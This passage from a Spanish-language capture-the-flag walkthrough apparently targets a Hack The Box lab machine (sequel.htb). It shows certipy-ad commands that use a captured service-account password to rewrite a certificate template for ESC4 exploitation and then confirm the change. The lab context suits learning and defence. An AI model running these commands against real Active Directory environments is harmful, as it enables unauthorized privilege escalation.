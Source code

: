 <figure><img src="../../../.gitbook/assets/3511_vmware_w3TRjCIhHn.png" alt="" width="563"><figcaption></figcaption></figure>

Procederemos a realizar la explotación del ESC4, para ello lo primero será guardar la antigua configuración, editarla y hacerla vulnerable a través del siguiente comando.

{% code overflow="wrap" %}
```bash
certipy-ad template -u 'ca_svc@sequel.htb' -p 'Password01!' -template DunderMifflinAuthentication -save-oid -dc-ip 10.10.11.51
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3512_vmware_8ulXBEQH9L.png" alt=""><figcaption></figcaption></figure>

Revisaremos nuevamente que el Template ha sido modificado correctamente.

{% code overflow="wrap" %}
```bash
certipy-ad find -u 'ca_svc@sequel.htb' -p 'Password01!' -dc-ip 10.10.11.51 -vulnerable -stdout
```
{% endcode %}
